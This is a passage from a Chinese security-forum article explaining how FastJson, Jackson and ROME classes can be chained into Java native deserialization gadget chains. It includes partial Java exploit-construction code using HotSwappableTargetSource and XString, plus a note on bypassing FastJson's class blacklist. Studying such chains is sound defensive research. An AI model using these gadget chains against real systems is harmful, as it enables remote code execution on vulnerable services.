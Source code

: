 

# 利用特殊反序列化组件攻击原生反序列化入口 - 先知社区

利用特殊反序列化组件攻击原生反序列化入口

* * *

## 前言

所谓特殊反序列化，就是指自实现了序列化/反序列化逻辑的组件，本文主要讨论以下三种

*   FastJson
*   Jackson（SpringBoot原生环境自带）
*   ROME（其实并不是特殊反序列化组件，但因为它也经常出现在toString利用链中，故放到一起讨论）

本文所述攻击的本质是**将上述组件中的类拼接到反序列化利用利用链中，打的是Serilizable入口，而不是特殊反序列化入口**

篇幅有限，无法对上述组件进行详细介绍，请还没了解的读者自行查阅有关文章

## 攻击原理

**这些组件**在实现自己的序列化逻辑（获取对象field值）时，会使用**自身类**重写的**toString**方法

在**这些类**的toString方法中，会调用**目标类**（也就是放在这些类中的Gadget后半部分，例如TemplatesImpl）的**getter方法**以获取**目标类**对象中的field值

**目标类**`obj`放在**这些类**中

如 `jsonObject1.put("g",obj);` `ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);`

**这些类**包括：`FastJson的JSONObject类、Jackson的POJONode类，ROME的ToStringBean类`

**目标类**getter：`TemplatesImpl#getOutputProperties、LdapAttribute#getAttributeDefinition、JdbcRowsetImpl#getDatabaseMetaData`

值得一提的是，由于是原生反序列化中的攻击，所以要求利用链上的类都要实现Serilizable接口，因此无法使用BCEL那条链（仅特殊反序列化如FastJson可用）

## 利用链分析

### readObject()->任意类toString()

#### HotSwappableTargetSource & XString

**依赖于SpringAOP**

测试代码如下（以JsonObject为例）

```plain
public static void main(String[] args) throws Exception {        
        Object templatesimpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("g","m");
        JSONObject jsonObject1 = new JSONObject();
        jsonObject1.put("g",templatesimpl);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(v1,v1);
        hashMap.put(v2,v2);
        setValue(v1,"target",jsonObject1);

//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap<Object,Object> hhhhashMap = new HashMap<>();
        hhhhashMap.put(tpl,hashMap);*/

```